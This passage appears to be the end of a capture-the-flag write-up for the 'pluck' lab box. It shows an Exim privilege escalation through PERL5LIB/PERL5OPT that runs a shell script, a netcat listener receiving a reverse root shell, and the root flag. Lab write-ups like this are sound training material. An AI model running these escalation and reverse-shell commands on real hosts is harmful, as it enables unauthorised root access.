 system("/bin/sh /home/paul/shell2.pl");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
$

Now...in my reverse shell trying to spawn a reverse root shell.

oot@kali:~/pluck# nc -lvp 8080
listening on [any] 8080 ...

192.168.118.189: inverse host lookup failed: Unknown host
connect to [192.168.118.186] from (UNKNOWN) [192.168.118.189] 55384
# #
# whoami
root

There we go :)

# cd /root
# ls
flag.txt
# cat flag.txt

Congratulations you found the flag

---------------------------------------

######   ((((((((((((((((((((((((((((((
#########   (((((((((((((((((((((((((((
,,##########   ((((((((((((((((((((((((
@@,,,##########   (((((((((((((((((((((
@@@@@,,,##########                     
@@@@@@@@,,,############################
@@@@@@@@@@@,,,#########################
@@@@@@@@@,,,###########################
@@@@@@,,,##########                    
@@@,,,##########   &&&&&&&&&&&&&&&&&&&&
,,,##########   &&&&&&&&&&&&&&&&&&&&&&&
##########   &&&&&&&&&&&&&&&&&&&&&&&&&&
#######   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&
